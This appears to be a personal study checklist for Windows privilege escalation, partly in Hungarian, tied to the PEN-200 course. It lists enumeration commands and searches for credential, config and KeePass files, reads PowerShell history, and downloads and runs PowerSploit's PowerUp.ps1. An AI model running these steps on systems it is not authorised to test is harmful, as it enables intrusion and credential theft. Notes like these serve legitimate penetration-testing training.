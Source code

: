 # Basic Windows Privilege Escalation Checklist
## Situational Awareness
* Hostname, username, current user - privileges and group memberships, current dir, common dirs, etc...
  * hostname
  * whoami
  * whoami /priv
  * whoami /groups
  * cd, dir, dir C:\, dir C:\Users, tree /F
* Existing users and groups
  * net user
  * net user User1
  * net localgroup
  * net localgroup Administrators
  * query user
* Operating system, version and architecture
  * systeminfo
* Network information
  * ipconfig /all
  * netstat -ano
  * route print
  * arp -a
* Running processes
  * tasklist
  * tasklist /svc
* Installed applications
  * WMIC
    * C:\> wmic [ENTER] product get name, version [ENTER]
    * varni kell egy kicsit, nem ad egybol eredmenyt
    * lehet erdemes redirectelni az eredmenyt egy file-ba (product get name, version > output.txt)
  * Powershell
  <pre>
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  </pre>
  * Listing C - Program Files folders
    * C:\> dir "C:\Program Files"
    * C:\> dir "C:\Program Files (x86)"
## File permissions
* cmd
<pre>
C:\> icacls "C:\Users\user1\desktop\test.exe"
C:\Users\user1\desktop\test.exe
BUILTIN\Administrators:(F)
NT AUTHORITY\SYSTEM:(F)
BUILTIN\Users:(RX)
NT AUTHORITY\Authenticated Users:(RX)
Successfully processed 1 files; Failed processing 0 files
</pre>
* powershell
<pre>
PS> Get-Acl "C:\Users\user1\desktop\test.exe"
...
</pre>
## Searching Files and Folders
* Searching files by extension
<pre>
PS> Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.conf,*.xml,*.json,*.yml,*.yaml,*.kdbx,*.bak,*.bck,*.old -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.bat,*.vbs,*.js,*.asp,*.aspx,*.js,*.ps1,*.psm1,*.php,*.jar,*.jsp -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.xlsm,*.doc,*.docx,*.docm,*.ppt,*.pptx -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.rar,*.zip,*.iso,*.tar,*.7z -File -Recurse -ErrorAction SilentlyContinue
</pre>
* Searching 'modifiable service files' (with Powersploit's PowerUp.ps1)
<pre>
PS> Invoke-WebRequest -Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" -OutFile .\PowerUp.ps1
PS> Import-Module .\PowerUp.ps1
PS> Get-ModifiableServiceFile
</pre>
## Powershell history
<pre>
PS> Get-History

PS> (Get-PSReadlineOption).HistorySavePath
C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

PS> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
</pre>
## Service Binary Hijacking
* PEN200.pdf 500. oldal...
## Service DLL Hijacking
* PEN200.pdf 507. oldal...
## Unquoted Service Paths
* PEN200.pdf 514. oldal...
## Scheduled Tasks
* PEN200.pdf 520. oldal...
## Common vulnerabilites and exploits
* Juicy Potato
* Printspoofer
* 
